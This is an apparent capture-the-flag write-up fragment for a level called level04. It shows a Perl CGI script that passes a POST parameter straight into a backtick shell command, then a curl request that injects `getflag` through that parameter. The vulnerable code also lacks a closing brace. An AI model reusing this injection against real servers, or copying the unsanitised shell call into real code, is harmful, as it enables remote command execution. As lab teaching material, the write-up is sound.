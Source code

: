 *level04.pl*

->  HTML server - echo the POST *x* parameter
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
x(param("x"));
```

We can inject the command you want in the *x* parameter

```
curl http://localhost:4747/ -d 'x=`getflag`'
```


